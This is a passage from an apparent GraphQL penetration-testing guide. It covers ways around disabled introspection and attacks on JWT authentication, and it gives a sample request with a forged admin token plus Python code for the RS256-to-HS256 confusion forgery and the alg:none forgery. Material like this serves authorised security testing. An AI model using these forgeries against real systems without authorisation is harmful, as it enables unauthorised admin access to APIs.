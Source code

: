 4. **If introspection is disabled, try these bypasses**:
   - URI case manipulation: `/GraphQL` instead of `/graphql`
   - Add custom headers: `X-Apollo-Tracing: 1`
   - Try partial introspection: `{ __type(name: "User") { name fields { name type { name } } } }`
   - Look for introspection data in JS bundles (search for "queryType" or "mutationType")
   - Try accessing development environment URLs (staging, dev, etc.)

InQL in Burp automates most of this, but manual exploration often reveals endpoints that automated tools miss.

### 3. Authentication Testing

GraphQL APIs often have unique authentication vulnerabilities:

1. **JWT token attacks**:
   - Check for weak signature verification (alg:none, RS/HS256 confusion)
   - Test token reuse across environments
   - Look for sensitive data in token claims
   - Try token replay without expiration
   - Test for missing validation of token claims
   
   Example attack query with forged token:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
   Content-Type: application/json
   
   {"query": "query { adminSettings { serverConfig } }"}
   ```
   
   JWT forgery techniques:
   ```python
   # Algorithm confusion attack (RS256 to HS256)
   # 1. Decode the token without verification
   import jwt
   token = "eyJhbGciO..."
   header = jwt.get_unverified_header(token)
   payload = jwt.decode(token, options={"verify_signature": False})
   
   # 2. Modify claims
   payload["role"] = "admin"
   
   # 3. Change algorithm from RS256 to HS256 and sign with the public key
   # This works when the server doesn't validate the algorithm properly
   import base64
   with open("public_key.pem", "rb") as f:
       public_key = f.read()
   
   # Create forged token with HS256 algorithm using public key as the secret
   forged = jwt.encode(payload, public_key, algorithm="HS256", headers={"alg": "HS256"})
   
   # Another technique: "none" algorithm attack
   null_signed = jwt.encode(payload, "", algorithm="none", headers={"alg": "none"})
   ```
   